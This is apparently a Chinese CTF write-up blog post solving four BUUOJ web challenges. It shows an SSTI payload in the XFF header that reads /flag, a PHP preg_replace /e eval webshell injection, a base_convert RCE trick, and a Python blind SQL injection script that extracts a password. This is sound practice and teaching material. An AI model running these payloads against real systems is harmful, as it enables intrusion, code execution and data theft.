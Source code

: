 # buu摸鱼日记之十三

## [BJDCTF2020]The mystery of ip

这题有点东西

居然是ssti真没想到

题目里面出现了ip,那自然想到client-ip/XXF

然后XXF可控，那么注入点就是这里

然后是smart(不是flask，这个可以用payload{{7*'7' 出49来判断

利用{{system('cat /flag') 拿到flag

## [BJDCTF2020]ZJCTF，不过如此

这个前半截和ZJCTF一模一样

后半端需要这个getshell

https://xz.aliyun.com/t/2557

这个洞理解起来好吃力，大概就是修改参数来达到串改php内容的作法

写个马进去/?\S*=${eval($_POST[field])}

```php
preg_replace('/(\S*)/ei', 'strtolower("\\1")', {${eval($_POST[field])});
                                              
```

原来的语句就会被魔改成这个DIO样子

就是会把${eval()}先执行掉，然后进行匹配（是个空值）

> ```php
> var_dump(phpinfo()); // 结果：布尔 true
> var_dump(strtolower(phpinfo()));// 结果：字符串 '1'
> var_dump(preg_replace('/(.*)/ie','1','{${phpinfo()}}'));// 结果：字符串'11'
> 
> var_dump(preg_replace('/(.*)/ie','strtolower("\\1")','{${phpinfo()}}'));// 结果：空字符串''
> var_dump(preg_replace('/(.*)/ie','strtolower("{${phpinfo()}}")','{${phpinfo()}}'));// 结果：空字符串''
> 这里的'strtolower("{${phpinfo()}}")'执行后相当于 strtolower("{${1}}") 又相当于 strtolower("{null}") 又相当于 '' 空字符串
> ```

大致就是这样

## [CISCN 2019 初赛]Love Math

这个题很有趣，可以看出来是RCE，但是不知道怎么做

主要还是利用base_convert转换，可以转出字符串出来（36进制,abcdefg全齐了）

网上看到了很多很有趣的解法，[给了三个解法](http://cnblogs.com/20175211lyz/p/11588219.html),从文件头插入的姿势我是第一次见，真的学到了  

## [BJDCTF 2nd]简单注入

还是要看hint（我太菜了）

扫出来hint.txt

```php
select * from users where username='$_POST["username"]' and password='$_POST["password"]';
```

要用\转义（没看hint真没想到）

魔改以后的就是

```php
select * from users where username='admin\' and password='or length(database())>0#';
```

就有逻辑不一样，回显不同的效果

那么盲注老操作了

```python
import requests

url="http://63f2cb60-65f0-43f7-8c7b-d1123631ab7c.node3.buuoj.cn"

ch = 0
flag = ""

for i in range(1,50):
    high = 128
    low = 32
    mid = (high + low) // 2
    while(high>low):
        payload = {"username":"admin\\","password":"or/**/if(ascii(substr(password,%d,1))<%d,1,0)#"%(i,mid)}
        r = requests.post(url=url,data=payload).text
        if "stronger" in r:
            high = mid 
        else:
            low = mid + 1

        mid = (high + low) // 2

    # print(r)
    flag += chr(int(mid-1))
    print(flag)

```

```php
select * from users where username='admin\' and password='or/**/if(ascii(substr(password,%d,1))<%d,1,0)#';
```

憨批的我换了半天的select*什么的，后来发现好像根本没必要